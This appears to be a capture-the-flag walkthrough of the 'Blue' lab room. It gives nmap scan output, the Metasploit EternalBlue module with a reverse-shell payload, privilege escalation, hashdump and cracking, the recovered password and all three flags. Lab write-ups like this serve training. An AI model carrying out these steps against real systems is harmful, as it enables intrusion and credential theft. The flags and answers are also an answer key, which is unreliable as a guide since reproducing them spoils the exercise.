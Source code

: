 # Blue 

VM for offline use: `https://darkstar7471.com/resources.html`

### Task 1 Recon

1. Scan the machine

```
db_nmap -sV -vv --script vuln 10.10.171.109
[*] Nmap: Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-13 15:56 GMT
[*] Nmap: NSE: Loaded 149 scripts for scanning.
[*] Nmap: NSE: Script Pre-scanning.
[*] Nmap: NSE: Starting runlevel 1 (of 2) scan.
[*] Nmap: Initiating NSE at 15:56
[*] Nmap: NSE Timing: About 85.71% done; ETC: 15:57 (0:00:05 remaining)
[*] Nmap: Completed NSE at 15:57, 34.47s elapsed
[*] Nmap: NSE: Starting runlevel 2 (of 2) scan.
[*] Nmap: Initiating NSE at 15:57
[*] Nmap: Completed NSE at 15:57, 0.00s elapsed
[*] Nmap: Pre-scan script results:
[*] Nmap: | broadcast-avahi-dos:
[*] Nmap: |   Discovered hosts:
[*] Nmap: |     224.0.0.251
[*] Nmap: |   After NULL UDP avahi packet DoS (CVE-2011-1002).
[*] Nmap: |_  Hosts are all up (not vulnerable).
[*] Nmap: Initiating Ping Scan at 15:57
[*] Nmap: Scanning 10.10.171.109 [2 ports]
[*] Nmap: Completed Ping Scan at 15:57, 0.01s elapsed (1 total hosts)
[*] Nmap: Initiating Parallel DNS resolution of 1 host. at 15:57
[*] Nmap: Completed Parallel DNS resolution of 1 host. at 15:57, 0.00s elapsed
[*] Nmap: Initiating Connect Scan at 15:57
[*] Nmap: Scanning 10.10.171.109 [1000 ports]
[*] Nmap: Discovered open port 139/tcp on 10.10.171.109
[*] Nmap: Discovered open port 135/tcp on 10.10.171.109
[*] Nmap: Discovered open port 445/tcp on 10.10.171.109
[*] Nmap: Discovered open port 3389/tcp on 10.10.171.109
[*] Nmap: Discovered open port 49153/tcp on 10.10.171.109
[*] Nmap: Discovered open port 49154/tcp on 10.10.171.109
[*] Nmap: Discovered open port 49160/tcp on 10.10.171.109
[*] Nmap: Discovered open port 49152/tcp on 10.10.171.109
[*] Nmap: Discovered open port 49158/tcp on 10.10.171.109
[*] Nmap: Completed Connect Scan at 15:57, 1.27s elapsed (1000 total ports)
[*] Nmap: Initiating Service scan at 15:57
[*] Nmap: Scanning 9 services on 10.10.171.109
[*] Nmap: Service scan Timing: About 44.44% done; ETC: 15:59 (0:01:08 remaining)
[*] Nmap: Completed Service scan at 15:58, 80.63s elapsed (9 services on 1 host)
[*] Nmap: NSE: Script scanning 10.10.171.109.
[*] Nmap: NSE: Starting runlevel 1 (of 2) scan.
[*] Nmap: Initiating NSE at 15:58
[*] Nmap: NSE: [firewall-bypass 10.10.171.109] lacks privileges.
[*] Nmap: NSE Timing: About 99.91% done; ETC: 15:59 (0:00:00 remaining)
[*] Nmap: Completed NSE at 15:59, 60.25s elapsed
[*] Nmap: NSE: Starting runlevel 2 (of 2) scan.
[*] Nmap: Initiating NSE at 15:59
[*] Nmap: NSE: [tls-ticketbleed 10.10.171.109:135] Not running due to lack of privileges.
[*] Nmap: NSE: [ssl-ccs-injection 10.10.171.109:3389] No response from server: ERROR
[*] Nmap: Completed NSE at 15:59, 0.37s elapsed
[*] Nmap: Nmap scan report for 10.10.171.109
[*] Nmap: Host is up, received conn-refused (0.0095s latency).
[*] Nmap: Scanned at 2023-01-13 15:57:16 GMT for 142s
[*] Nmap: Not shown: 991 closed tcp ports (conn-refused)
[*] Nmap: PORT      STATE SERVICE            REASON  VERSION
[*] Nmap: 135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server? syn-ack
[*] Nmap: |_ssl-ccs-injection: No reply from server (TIMEOUT)
[*] Nmap: 49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
[*] Nmap: 49158/tcp open  msrpc              syn-ack Microsoft Windows RPC
[*] Nmap: 49160/tcp open  msrpc              syn-ack Microsoft Windows RPC
[*] Nmap: Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: |_smb-vuln-ms10-054: false
[*] Nmap: |_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
[*] Nmap: | smb-vuln-ms17-010:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
[*] Nmap: |     State: VULNERABLE
[*] Nmap: |     IDs:  CVE:CVE-2017-0143
[*] Nmap: |     Risk factor: HIGH
[*] Nmap: |       A critical remote code execution vulnerability exists in Microsoft SMBv1
[*] Nmap: |        servers (ms17-010).
[*] Nmap: |
[*] Nmap: |     Disclosure date: 2017-03-14
[*] Nmap: |     References:
[*] Nmap: |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
[*] Nmap: |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
[*] Nmap: |_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
[*] Nmap: |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
[*] Nmap: NSE: Script Post-scanning.
[*] Nmap: NSE: Starting runlevel 1 (of 2) scan.
[*] Nmap: Initiating NSE at 15:59
[*] Nmap: Completed NSE at 15:59, 0.00s elapsed
[*] Nmap: NSE: Starting runlevel 2 (of 2) scan.
[*] Nmap: Initiating NSE at 15:59
[*] Nmap: Completed NSE at 15:59, 0.00s elapsed
[*] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 177.28 seconds
```

2. How many ports under 100 are open?

3

3. What is this machine vulnerable to? (ms00-000 tag)

ms17-010

### Task 2 Gain Access

1. Start Metasploit

2. Find the exploitation code we will run against the machine. What is the full path?

`exploit/windows/smb/ms17_010_eternalblue`

3. Show options and set the one required value. What is the name of this value?

RHOSTS

4. Set payload to `windows/x64/shell/reverse_tcp`

5. Run the exploit

6. Background the shell with CTRL+Z

### Task 3 Escalate

1. Research online how to convert a shell to meterpreter shell in metasploit. What is the 
name of the post module we will use? 

`post/multi/manage/shell_to_meterpreter`

2. Select this (use MODULE_PATH). Show options, what option are we required to change?

SESSION

3. Set the required option, you may need to list all of the sessions to find your target 
here. 

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

5. Once the meterpreter shell conversion completes, select that session for use

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. 
Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return 
that we are indeed system. Background this shell afterwards and select our meterpreter 
session for usage again. 

7. List all of the processes running via the 'ps' command. Just because we are system 
doesn't mean our process is. Find a process towards the bottom of this list that is running 
at NT AUTHORITY\SYSTEM and write down the process id (far left column).

2028 conhost.exe

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is 
the one you just wrote down in the previous step. This may take several attempts, migrating 
processes is not very stable. If this fails, you may need to re-run the conversion process 
or reboot the machine and start once again. If this happens, try a different process next 
time. 

### Task 4 Cracking

1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of 
the passwords on the machine as long as we have the correct privileges to do so. What is 
the name of the non-default user? 

Jon

2. Copy this password hash to a file and research how to crack it. What is the cracked 
password?

alqfna22

### Task 5 Find flags!

1. Flag 1? This flag can be found at the system root. 

location: `C:\`

flag{access_the_machine}

2. Flag 2? This flag can be found at the location where passwords are stored within Windows.

location: `C:\Windows\System32\config\`

flag{sam_database_elevated_access}

3. Flag 3? This flag can be found in an excellent location to loot. After all, 
Administrators usually have pretty interesting things saved.

location: `C:\Users\Jon\Documents\`

flag{admin_documents_can_be_valuable}
